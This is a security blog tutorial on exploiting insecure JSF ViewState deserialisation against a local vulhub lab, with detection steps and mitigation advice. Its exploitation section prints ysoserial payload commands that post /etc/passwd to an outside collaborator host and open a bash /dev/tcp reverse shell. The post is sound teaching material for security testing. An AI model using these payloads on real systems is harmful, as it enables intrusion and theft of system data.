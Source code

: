 ```yaml
---
layout: post
title: Demystifying Insecure Deserialisation on JSF Application
date: 2021-05-08
summary: JSF Viewstate Deserialisation
categories: Web Security
tags: [Bugs, Write-Ups, Web Security]
---
```


Hi Everyone,

I'm back with an another blog on interesting vulnerability **Insecure Deserialisation on JSF Applications** which occurs due to the **Misconfigured Viewstate**

<p align="center">
  <img src="/images/deserialisation/desc1.png">
</p>

<p align="center"> <strong>Difference between Serialization & Deserialization:</strong></p>

* **Serialization** is the process of taking an object and translating it into plaintext. This plaintext can then be encrypted or signed, as well as simply used the way it is.

* The **reverse** process is called **Deserialization**, i.e. when the plaintext is converted back to an object.

<p align="center">
  <img src="/images/deserialisation/desc2.png">
</p>

<p align="center"> <strong>ViewState</strong></p>

* The purpose of “ViewState” is to memorize the state of the user, even after numerous HTTP queries (stateless protocol).
* Different Types of View-state
  1. .Net - ``___Viewstate``
  2. JSF - ``javax.faces.Viewstate``    

<p align="center"> <strong>Flow of JSF ViewState</strong></p>

* The "ViewState" of a page is by default, stored in a hidden form field in the web page named **javax.faces.ViewState**.
* ViewState starts with **H4sIAAAA**, which represent the Base64Gzip.

<p align="center">
  <img src="/images/deserialisation/desc3.png">
</p>

<p align="center">
  <img src="/images/deserialisation/desc4.png">
</p>

<p align="center"> <strong>Layers in JSF Viewstate</strong></p>

<p align="center">
  <img src="/images/deserialisation/desc5.png">
</p>

<p align="center"><strong>Environment Setup</strong></p>

Step 1: Create a Docker Compose file using the following command 

`docker-compose.yml`

```bash
version: '2'
services:
  web:
    image: vulhub/mojarra:2.1.28
    ports:
      - "8080:8080"
```

Step 2: Execute the following command to start a JSF application which using JDK7u21 and Mojarra 2.1.28

```bash
docker-compose up -d
```
<p align="center">
  <img src="/images/deserialisation/desc6.png">
</p>

Step 3: After the application is started, visit http://127.0.0.1:8080 to see the demo page.

<p align="center">
  <img src="/images/deserialisation/desc7.png">
</p>

<p align="center"><strong>Decoding JSF Viewstate</strong></p>

Step 1: Open the Demo URL http://127.0.0.1:8080 , give a sample input and intercept the request using Client-Side Proxy such as Burpsuite as shown below.

<p align="center">
  <img src="/images/deserialisation/desc8.png">
</p>

Step 2: In the request body, it can be observed that the application uses JSF Viewstate format.

<p align="center">
  <img src="/images/deserialisation/desc9.png">
</p>

Step 3: Select the **javax.faces.ViewState** values , right click & send it to **Decoder** as shown below.

<p align="center">
  <img src="/images/deserialisation/desc10.png">
</p>

Step 4: First do a **URL Decode** -> **Base64 Decode** -> **GZip Decode**.

<p align="center">
  <img src="/images/deserialisation/desc11.png">
</p>

Step 5: The final output gives some information about the java utils and components used in the application.

<p align="center">
  <img src="/images/deserialisation/desc12.png">
</p>

<p align="center"><strong>Burpsuite Extenders & Tools Configuration</strong></p>

* Install **Java Deserialization Scanner** from **Extenders** -> **BApp Store**.

<p align="center">
  <img src="/images/deserialisation/desc13.png">
</p>

* Navigate to the **Deserialization Scanner** -> **Configurations** and configure the ysoserial.

<p align="center">
  <img src="/images/deserialisation/desc14.png">
</p>

Note: ysoserial can be downloaded from <https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar>

* We need to find the payload type in-order to use the ysoserial tool.

<p align="center"><strong>Vulnerability Detection</strong></p>

Step 1: Intercept the request of the application and send the request to **DS - Manual Testing** .

<p align="center">
  <img src="/images/deserialisation/desc15.png">
</p>

Step 2: Select the **javax.faces.ViewState** values and **Set Insertion Point**.

<p align="center">
  <img src="/images/deserialisation/desc16.png">
</p>

Step 3: Choose Attack (Base64GZip) as shown below.

<p align="center">
  <img src="/images/deserialisation/desc17.png">
</p>

Step 4: If the viewstate is vulnerable, it will show **Potentially VULNERABLE!!!**.

<p align="center">
  <img src="/images/deserialisation/desc18.png">
</p>

Step 5: Now we got the payload type which is **Jdk7u21** 

<p align="center"><strong>Exploitation Phase</strong></p>

NOTE: There are two ways to Exploit a JSF Viewstate Deserialisation

* Out-Of-Band 
* Reverse Shell

<p align="center"><strong>Exploitation using Deserialization Scanner</strong></p>

Step 1: Send the vulnerable request to **DS - Exploitation Tab**

Step 2: Using the following command to perform a **OOB Deserialisation** and Read Internal Files of the application

```bash
Jdk7u21 "wget --post-file /etc/passwd  http://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.burpcollaborator.net"
```

<p align="center">
  <img src="/images/deserialisation/desc19.png">
</p>

<p align="center">
  <img src="/images/deserialisation/desc20.png">
</p>

<p align="center"><strong>Manual Payload Creation using Ysoserial</strong></p>

**Ysoserial Syntax** 

```bash
java -jar ysoserial-[version]-all.jar [payload] '[command]'
```
**Payload Command**

```bash
java -jar ysoserial-master-SNAPSHOT.jar Jdk7u21 "wget --post-file /etc/passwd  http://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.burpcollaborator.net" | gzip | base64 -w 0
```
 
<p align="center">
  <img src="/images/deserialisation/descc21.png">
</p>

* Replace the **javax.faces.ViewState** value with the Ysoserial generated payload and **URL Encode** it.

<p align="center">
  <img src="/images/deserialisation/descc22.png">
</p>

* Click on Go and Observe the response in Burp Collaborator.

<p align="center">
  <img src="/images/deserialisation/desc23.png">
</p>

<p align="center"><strong>Establishing a Stable Reverse Shell</strong></p>

Step 1: Send the vulnerable request to **DS - Exploitation Tab**

Step 2: Use the following Bash Reverse Shell command to gain a **Reverse Shell**.

```bash
Jdk7u21 "/bin/bash -c /bin/bash${IFS}-i>&/dev/tcp/ipaddress/1337<&1"
```
* bash -i >& - Invokes bash with an **“interactive”** option.
* /dev/tcp/ipaddress/1337 - Redirects that session to a tcp socket via device file. 
* 0>&1 - Takes standard output, and connects it to standard input.

<p align="center">
  <img src="/images/deserialisation/descc24.png">
</p>

<p align="center">
  <img src="/images/deserialisation/descc25.png">
</p>

<p align="center"> Now we have reached stable Reverse Shell using JSF Viewstate Deserialisation.</p>

<p align="center">
  <img src="https://media.giphy.com/media/l0D76LT6o1jaG2g0M/source.gif">
</p>

**Mitigation :**
* Always validate the scope of Java objects. It is not recommended to use the scope @ViewScoped, because it is often the source of information leaks.
* Use the keyword transient on attributes you do not want to store in the ViewState. It will prevent their serialization.
* Always encrypt the ViewState and use an integrity check mechanism if the implementation supports it.
* Never trust the data contained in a ViewState. Consider they have been potentially tampered by a user. So, you must check them carefully to prevent the attacks previously described.

**Reference :**
<p><a href="https://www.exploit-db.com/docs/48126">Java Deserialization in ViewState</a>
<p><a href="https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html">Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities</a>
<p><a href="https://www.synacktiv.com/ressources/JSF_ViewState_InYourFace.pdf">JSF ViewState upside-down</a>

<p align="center">
  <img src="https://media.giphy.com/media/d7IaKUMk8RqtFjT71B/source.gif">
</p>

Thanks a lot for reading :)
